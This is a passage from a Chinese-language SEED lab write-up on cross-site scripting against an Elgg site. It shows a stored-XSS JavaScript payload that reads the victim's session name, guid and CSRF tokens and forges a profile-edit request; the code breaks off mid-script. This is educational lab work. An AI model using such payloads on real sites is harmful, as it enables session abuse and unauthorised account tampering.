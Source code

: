 这是编辑器模式（默认模式）：

![4-4](../image/4-4.png)

可以看到编辑器模式（默认模式）会自动地给脚本添加一些 html 标签，从而导致脚本无法执行。

---

## Task 5: Modifying the Victim’s Profile

此任务的目标是当受害者访问 Samy 的页面时修改受害者的个人资料。具体来说，修改受害者的 “About me” 字段。

与上一个任务类似，我们需要编写一个恶意 JavaScript 程序，直接从受害者的浏览器伪造 HTTP 请求，而无需攻击者的干预。

在 CSRF_Attack 实验中，我们已经了解了修改 profile 的请求方式：

>可以看到请求方式为 POST, url 为：`http://www.seed-server.com/action/profile/edit`
>
>参数有：`name`(用户名）, `briefdescription`（用户简介）, `accesslevel[i]`（修改 i 部分的权限，2为公开）, `guid`（用户 id）,以及 `__elgg_ts` 和 `__elgg_token`。

接下来我们基于此编写 JavaScript 程序发送 HTTP 请求。

```html
<script type="text/javascript">
    // 当窗口加载完成时执行函数
    window.onload = function(){   
        var userName = "&name=" + elgg.session.user.name;         // 获取当前用户的用户名
        var guid = "&guid=" + elgg.session.user.guid;            // 获取当前用户的GUID
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;             //获取时间戳
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;    //获取 token

        // 组合所有参数，构造POST请求的内容
        var content = token + ts + userName + "&description=Samy%20is%20my%20hero&accesslevel[description]=2" + guid;
        var samyGuid = 59;		
        var sendurl = "http://www.seed-server.com/action/profile/edit";
        
        if (elgg.session.user.guid != samyGuid) {    //防止攻击者攻击到自己
            var Ajax = null;
```